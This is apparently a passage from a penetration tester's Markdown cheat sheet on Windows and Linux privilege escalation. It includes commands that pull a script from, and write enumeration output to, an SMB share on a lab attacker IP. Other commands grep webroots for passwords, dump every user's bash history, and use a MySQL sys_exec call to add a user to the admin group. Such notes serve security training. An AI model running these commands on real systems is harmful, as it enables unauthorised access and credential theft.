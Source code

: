 ````

Add permissions to execute:
```icacls adfsys.exe /grant NINA\nina:(M)```

#### Transfer
```smbserver.py leshare /var/www/html/scripts/```

```copy \\10.10.14.19\leshare\Powerless.bat```

```Powerless.bat > \\10.10.14.19\leshare\powerOUT.txt```

# Priv-Esc Basic Enumeration
#### Quick Wins - Credentials from (Web) Service files
If web services were running and was an avenue to enter (or not), check the webroot! 

Especially if there was a Logon Page - ```checklogin.php``` file must have a mechanism to access the SQL database to authenticate users.. Check it 

```grep -r -i “password” /var/www/```

Examples:
```
/var/www/https/wproot/wp-config.php
/var/www/html/check_logon.php
```

Bash History is also good to read through
```find /home/ -type f -iname ".bash_history" -exec cat {} \;```

Thoroughly enumerate User folders -   ```/home/bob/```   ```C:\Users\Bob```

#### Other Services
- Database - is MySQL running as root? 

  - ```select sys_exec('usermod -a -G admin john');```

    - https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/

    - https://www.exploit-db.com/exploits/1518 (linux)

    - https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/


- If running third-party FTP, SMTP or service-named machine, maybe check those folders out..

- Look for ```.conf``` , ```.ini``` and passwd files.

#### Scripts
- Windows
  - https://github.com/M4ximuss/Powerless
  - https://github.com/GDSSecurity/Windows-Exploit-Suggester

- Linux
  - https://github.com/sleventyeleven/linuxprivchecker/

# Priv-Esc (Windows) Check-List
https://fuzzysecurity.com/tutorials/16.html

#### Basic System Information

```
systeminfo
whoami; echo %username; hostname
````